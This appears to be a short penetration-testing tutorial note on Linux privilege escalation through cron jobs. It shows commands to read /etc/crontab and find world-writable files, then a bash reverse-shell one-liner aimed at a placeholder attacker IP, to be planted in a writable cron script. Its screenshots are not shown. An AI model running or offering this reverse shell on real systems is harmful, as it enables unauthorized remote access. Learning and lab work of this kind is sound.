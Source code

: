 # crontab

to display schedule task

```bash
cat /etc/crontab 
# And
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (1) (1) (1).png>)

we found two bash script so let’s know the privileges of this files

<figure><img src="../../../.gitbook/assets/image 1 (1) (1).png" alt=""><figcaption></figcaption></figure>

so we found \[`overwrite.sh](http://overwrite.sh)` we can write in this file so let’s take a revers shell

```bash
bash -c 'bash -i >& /dev/tcp/AttackerIP/portnumber 0>&1'
```

<figure><img src="../../../.gitbook/assets/image 2 (2).png" alt=""><figcaption></figcaption></figure>
